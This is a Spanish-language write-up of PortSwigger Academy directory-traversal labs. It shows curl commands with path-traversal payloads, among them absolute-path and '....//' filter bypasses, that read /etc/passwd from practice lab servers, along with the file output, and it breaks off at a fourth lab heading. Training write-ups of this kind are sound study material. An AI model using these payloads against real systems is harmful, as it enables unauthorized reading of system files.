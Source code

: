 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice



## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html
<img src="/image?filename=64.jpg">
```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

Vamos mas al grano, y vamos a probar de una vez el enlace de las imagenes con el fichero **/etc/passwd**.

```bash
https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=71.jpg
```

```bash
└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=/etc/passwd
"No such file"

└──╼ $curl https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=../../etc/passwd
"No such file"
```

Podemos sospechar lo mismo que en el nivel anterior, la consulta elimina la cadena **../** por lo cual, lo que haremos será burlar esto de una manera algo ingeniosa:

```bash
#El sitio eliminará la cadena ../ pero, al hacer eso juntará las cadenas .. y / que crearán otro ../
...// -> ..(../)/ -> ../
```

Entonces ahora pogramos el payload con el comando **curl**.

```bash
└──╼ $curl "https://ace61faf1e31e3fe80d5108c00bf0069.web-security-academy.net/image?filename=....//....//....//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

## 4. Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

